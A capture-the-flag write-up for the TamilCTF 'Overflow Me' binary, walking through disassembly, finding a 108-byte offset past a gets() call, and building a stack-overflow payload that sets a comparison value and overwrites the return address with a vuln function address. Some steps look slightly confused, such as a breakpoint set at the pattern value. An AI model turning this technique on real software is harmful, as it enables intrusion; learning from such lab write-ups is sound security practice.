 # Writeups for Overflow Me
- We need to find the flag in format of TamilCTF{flag}. The Overflow_Me is in the same directory
## Analysis the Overflow Me
- Get some basic information from the overflow me binary, by using some commands.
  - file Overflow_me
![Alt Text](img/file.png)<br />It is 64 bit, x86-64 and not stripped binary.
  - strings Overflow_Me
![Alt Text](img/strings.png)<br />Nothing interesting like **flag**.
- Run the overflow me binary
  - ./Overflow_me
![Alt Text](img/output_bin.png)<br />Enter something , I entered **TamilCTF2021**,the output is **Addr is 0x00000000**.

## Run the Overflow Me binary on BinaryNinja
- Open the overflow me binary in [BinaryNinja](https://binary.ninja/demo/)
  - /opt/binaryninja/binaryninja Overflow_Me
![Alt Text](img/open_binary.png)<br />
  - Examine the main function
    - The main function call the **banner** function. Actually the banner function print the some strings. Then get a user input by using gets function **( Gets is dangerous function,there is no limits for the user input, So we overflow the return address )**. ![Alt Text](img/main.png)<br />But there is one cmp instruction ,it compare the eax **( the eax is 0)** with 0x33313337 **( It is hexa of 7313 )**.If compare statement is false ,it will **exit** the program by print the **Addr of eax**.  <br /> **GOAL : OVERWRITE 7313 VALUE ON EAX**.
    
## Find the offset of eax
  - Create a unique pattern
    - pattern create 150![Alt Text](img/pattern.png)<br />

  - Run the binary with that pattern
    - ./Overflow_Me![Alt Text](img/find_pattern.png)<br />The value output address is value overwite in eax.

  - Finally find the offset
    - pattern offset 0x41366441 150![Alt Text](img/offset.png)<br />The offset is **108**.

## Load the Overflow Me on **GDB**    
  - Open the overflow_me on gdb
    - gdb ./Overflow_me -q
  - List the functions
    - info function<br />![Alt Text](img/functions.png)<br />There are three function. vuln,banner and main functions
  - Disassembly the main function and set a breakpoint at leave statement
    - disass main![Alt Text](img/leave.png)<br />
    - b *0x41366441![Alt Text](img/break_lev.png)<br />
  - Run the binary
    - run the binary with 108 byte of A ,comparsion value is 7313 and 8 byte of B and C .
      > run < "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA7313BBBBBBBBCCCCCCCC"
    - Hey, Now the breakpoint is hit.
    - List the value in rbp.
      - x/20wx $rbp![Alt Text](img/rbp.png)<br />
      - The value of 42 **(B)** is stored in rbp and 43 **(C)** is stored in return address.

## Make a Exploit
  - We need overwrite the vuln function address on return address
  - find the vuln function address
    - objdump -t Overflow_Me | grep vuln![Alt Text](img/vuln.png)<br />
  - Exploit file
    ![Alt Text](img/exploit.png)
    - "A"*108 is stored in padding.
    - "7313" is stored in cmp.
    - "B"*8 is stored in rbp, it is base address in program.
    - struct.pack("Q",0x00000000004011b1) will unpacked vuln function address and stored in ret, it will overwrite the return address in program.
    - Finally this payload is stored in exp file.

## Run the Overflow with exp file
  - run the binary with exp file
    - ./Overflow_Me < exp ![Alt Text](img/pip_exp.png)<br />
    - Hey ,Finally we got the flag :smiley:![Alt Text](img/flag.png)<br />
